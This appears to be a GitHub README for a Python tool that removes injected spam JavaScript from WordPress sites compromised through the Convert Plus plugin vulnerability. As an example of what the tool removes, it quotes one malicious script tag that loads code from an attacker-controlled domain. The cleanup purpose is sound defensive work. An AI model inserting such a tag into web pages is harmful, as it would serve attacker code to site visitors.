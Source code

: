 # Wordpress Spam Attack Removal Script

Written in Python and compatible with both **Python2** and **Python3**.

This script essentially removes spam attack injections from a given path. The convertplug plugin that comes with Avada which has a  vulnurability disclosed by Wordfence have caused numerous sites to be breached, unauthorized users have access to content,code and database. This script should be only utilized to clean injected javascript snippets from the themes and any other place where it might be. 

You can read the details about vulnerability from here

<https://www.wordfence.com/blog/2019/05/critical-vulnerability-patched-in-popular-convert-plus-plugin/>

## Considirations

This script utilizes **RAM** while reading files and does not **discriminate** file extensions and checks all files. This can be improved by various methods.

__PS : This script does replaces text that is inside the "database.json" does not locates or scans shells.__

### Scope

There are 4 specific JS injections that has occured after this vulnurability and the database.json contains only those records. In case you want to add further javascript/to be replaced you can use insert.py.

#### Example Injected Script

```html
<script type='text/javascript' async src='https://css.developmyredflag.top/sjquery.min.js?style=prime&'></script>
```

Various kinds of scripts exists like these and this tool/script automizes the removal process without breaking themes, plugins and sites as a whole. 

## Example Usage

Script is written for Python 2.7+. Logs the altered files to show which files were affected.

Install the dependencies and devDependencies and start the server.

### Example Insert Operation

```sh
python insert.py "string_in_double_quotes"
```

### Example Cleanup Operation

```sh
python cleanup.py your_domain.com
```

or entering a full path like

```sh
python cleanup.py /home/user/your_domain.com
```

### License

License can be found under LICENSE in this repository.
